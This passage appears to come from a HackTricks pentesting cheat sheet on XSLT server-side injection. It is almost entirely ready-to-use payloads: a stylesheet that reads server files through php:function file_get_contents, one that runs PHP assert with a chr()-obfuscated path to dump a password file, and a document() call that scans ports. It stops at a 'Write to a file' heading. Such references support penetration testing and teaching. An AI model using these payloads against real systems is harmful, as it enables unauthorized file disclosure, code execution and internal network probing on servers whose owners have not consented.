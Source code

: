 ### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#internal-php-function)

**Internal (PHP-function)**

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','/path/to/file')"/>
</xsl:template>
</xsl:stylesheet>
```

Copy

```
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
    <body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
        <xsl:copy-of name="asd" select="php:function('assert','var_dump(file_get_contents(scandir(chr(46).chr(47))[2].chr(47).chr(46).chr(112).chr(97).chr(115).chr(115).chr(119).chr(100)))==3')" />
        <br />
    </body>
</html>
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#port-scan)

Port scan

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="document('http://example.com:22')"/>
</xsl:template>
</xsl:stylesheet>
```

## 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#write-to-a-file)

Write to a file

